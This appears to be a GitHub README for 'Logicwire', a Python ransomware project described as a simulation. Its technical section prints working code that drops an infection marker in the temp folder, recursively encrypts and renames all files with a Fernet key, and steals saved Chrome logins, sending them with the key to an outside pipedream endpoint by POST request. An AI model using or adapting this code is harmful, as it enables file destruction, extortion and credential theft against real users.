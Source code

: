 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# File decryption
<img src="https://cdn.discordapp.com/attachments/768928242467340328/811321319668056135/Action_16-02-2021_20-23-10_online-video-cutter.com.gif"><br>
# Technical operation
### Avoid double encryption
It installs a .tmp signature in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
        for file in files:
            tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```
### Symmetric encryption
A key is generated randomly with Fernet.generate_key() and use it to encrypt all files recursively, including the subdirectories etc...
```python3
f = Fernet(key)
subdirs = [x[0] for x in os.walk(dir)]
for dirdir in subdirs:
        for filename in glob.glob(os.path.join(dirdir, '*.*'), recursive=True):
            with open(filename, "rb") as file:
                file_data = file.read()
                encrypted_data = f.encrypt(file_data)
            with open(filename, "wb") as new:
                new.write(encrypted_data)

            extension = str(filename).split(".")[1]
            name = str(''.join(random.SystemRandom().choice(string.ascii_uppercase + string.digits) for _ in range(10)))
            os.rename(filename, dirdir + "/" + name + "." + extension)
```
### Accounts recovery
It steals the accounts by connecting to the chrome database and sends them back to a pipdream via POST API, then redirects them to the decided webmail.
```python3
r = requests.post("https://en54ygy2ikv5dtk.m.pipedream.net", data={"key": keydecrypt, "logs": rez}, headers={'Content - Type': 'application / json'})
```

